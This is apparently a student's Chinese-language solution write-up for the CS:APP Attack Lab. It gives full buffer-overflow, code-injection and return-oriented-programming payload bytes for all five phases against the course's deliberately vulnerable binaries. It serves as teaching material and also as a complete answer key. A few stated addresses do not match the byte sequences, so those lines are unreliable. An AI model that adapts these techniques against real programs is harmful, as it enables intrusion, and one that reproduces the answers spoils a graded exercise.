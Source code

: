 # Attack Lab
### lab地址： [CS:APP3e Student Site](http://csapp.cs.cmu.edu/3e/students.html)
## 实验文件组成
    README.txt: A file describing the contents of the directory  

    ctarget: An executable program vulnerable to code-injection attacks  

    rtarget: An executable program vulnerable to return-oriented-programming attacks  

    cookie.txt: An 8-digit hex code that you will use as a unique identifier in your attacks.  

    farm.c: The source code of your target’s “gadget farm,” which you will use in generating return-oriented
    programming attacks.

    hex2raw: A utility to generate attack strings.
## 常用指令
    cat answerk | ./hex2raw | ./ctarget -q（不加-q 不能运行）
    objdump -d xx.o > xx 反汇编指令
    gcc -c xx.i 将汇编语言转换为机器语言    

## answer1:
第一个任务只需要把栈填充40个地址然后覆盖原来的返回地址，通过汇编语言翻译为机器地址

    31 32 33 34 35 36 37 38 39 30
    31 32 33 34 35 36 37 38 39 30
    31 32 33 34 35 36 37 38 39 30
    31 32 33 34 35 36 37 38 39 30
    c0 17 40 00 00 00 00 00  
## answer2:
第二个任务需要我们自己编写汇编代码，把cookie传入寄存器rdi中:  

    movq $0x59b997fa , %rdi
    pushq $0x004017c0
    retq  
然后把这个栈帧的返回地址改为栈顶  

    gcc -c answer2.s //之后生成answer2.o
    objdump -d answer2.o >> answer2.s //获得字节序列  

最终的字节序列为

    48 c7 c7 fa 97 b9 59
    68 ec 17 40 00
    c3
    30 30 30 30 30 30
    30 30 30 30 30 30
    30 30 30 30 30 30
    30 30 30 30 30 30 30 30 30
    78 dc 61 55 00 00 00 00
## answer3:
第三个任务需要把cookie存入到栈中，把地址传给rdi  

因为在这里后面的hexmatch 和strncmp会覆盖getbuf中的memory  
而观察test过程的栈空间是没有被利用的，所以我们可以覆盖调用函数的栈空间来存储注入代码字符串  
buf栈顶的位置在0x5561dc78 栈底0x5561dca0 所以跳过保存地址的8个字节  
我们存储字符串的位置就在0x5561dca8  
touch3()地址 $0x004018fa  
注入代码

    mov $0x5561dca8 , %rdi
    pushq   $0x004018fa
    retq
最终的字节序列：

    48 c7 c7 a8 dc 61 55 
    68 fa 18 40 00
    c3
    30 30 30 30 30 30
    30 30 30 30 30 30
    30 30 30 30 30 30
    30 30 30 30 30 30 30 30 30
    78 dc 61 55 00 00 00 00
    35 39 62 39 39 37 66 61
## answer4:
因为**栈随机化**，因此不可以通过栈地址来注入执行代码  
为了达到movq $0x59b997fa,%rdi  我们利用原来的代码碎片
首先填充40个空的字节，把原来的返回地址改为pop %rax代码地址  
我们查询到pop %rax 字节序列为58 90 
找到代码碎片地址 0x004019ab  
然后填充8个字节cookie ,再返回到代码碎片 movq %rax,%rdi ,对应地址为0x004889c7
![栈结构](https://github.com/JasonJ2021/CSAPP/blob/main/AttackLab/picture/answer4.jpg)
最终的字节序列为

    30 30 30 30 30 30 30 30 30 30
    30 30 30 30 30 30 30 30 30 30
    30 30 30 30 30 30 30 30 30 30
    30 30 30 30 30 30 30 30 30 30
    ab 19 40 00 00 00 00 00
    fa 97 b9 59 00 00 00 00
    c5 19 40 00 00 00 00 00
    ec 17 40 00 00 00 00 00

## answer5:
最后一个任务实现与phase_3差不多，栈结构如下：
![栈结构](https://github.com/JasonJ2021/CSAPP/blob/main/AttackLab/picture/answer5.jpg)
最终的字节序列为

    51 51 51 51 51 51 51 51 51 51
    51 51 51 51 51 51 51 51 51 51
    51 51 51 51 51 51 51 51 51 51
    51 51 51 51 51 51 51 51 51 51
    ad 1a 40 00 00 00 00 00
    d8 19 40 00 00 00 00 00
    a2 19 40 00 00 00 00 00
    fa 18 40 00 00 00 00 00
    31 31 31 31 31 31 31 31 31 31
    31 31 31 31 31 31 31 31 31 31
    31 31 31 31 31 31 31 31 31 31
    31
    35 39 62 39 39 37 66 61 00